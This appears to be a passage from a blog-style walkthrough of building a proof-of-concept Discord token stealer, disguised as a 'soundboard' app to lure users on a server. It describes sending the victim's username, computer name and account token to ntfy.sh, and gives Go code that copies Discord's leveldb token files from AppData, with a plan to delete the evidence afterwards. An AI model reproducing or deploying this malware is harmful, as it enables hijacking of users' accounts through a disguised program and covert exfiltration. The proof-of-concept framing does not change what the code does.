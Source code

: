 In this scenario, I use [ntfy.sh](https://ntfy.sh). Knowing that I'm not gonna actually share the token with a server that I don't know/trust, I'm just gonna create a poc.

# Execution of the plan

We need a name for it, something catchy that has the ability to get the interest and attention of the people that might be on the server.
No gifts or nitro, we already saw that. 
Instead, a "soundboard". You know, those program that output music and audio "through" your microphone so other people can hear that too. 

So we have a name: `juicysoundboard`.

Upon execution, juicy soundboard will collect the name of the user and the computer name and send it to ntfy.sh so I get a notification on my phone alongside the token of the account configured on their PC.

Program exits if it doesn't find any folder.

Ran on some issue with getting the token from the database because of "Database already opened by another application", so I decided to copy the content of the folder in a temporary one, extract the token and delete the evidence.

> Note: I think that a good malware shouldn't leave artifacts on the machine, but for the sake of semplicity, we're gonna do that. 

On the source code, here is how I will copy the database that stores the token:

```go
func backup() {

	// Reading all the files inside the folder where the database is located.
	// appdata variable contains the enviorement variable value of %AppData% 
    files, errFiles := ioutil.ReadDir(appdata + "\\discord\\Local Storage\\leveldb\\")

	// No folder or other issue? Exit, bail it. We don't need to do anything if Discord is not installed/configured
    if errFiles != nil {
        fmt.Printf("Couldn't open dir: %s\n", errFiles.Error())
        os.Exit(1)
        return
    }

	// We cycle through the files, although we need only a couples of ones:
	// *.ldb, MANIFEST*, CURRENT
    for _, file := range files {
        if strings.HasSuffix(file.Name(), ".ldb") || strings.HasPrefix(file.Name(), "MANIFEST") || file.Name() == "CURRENT" {
	        
	        // If we found an interesting file, we read its content...
            srcData, srcErr := ioutil.ReadFile(appdata + "\\discord\\Local Storage\\leveldb\\" + file.Name())
            if srcErr != nil {
                continue
            }
            // and copy it in our tmp folder
            ioutil.WriteFile("./tmp/"+file.Name(), srcData, 0644)
        }
    }
}
```
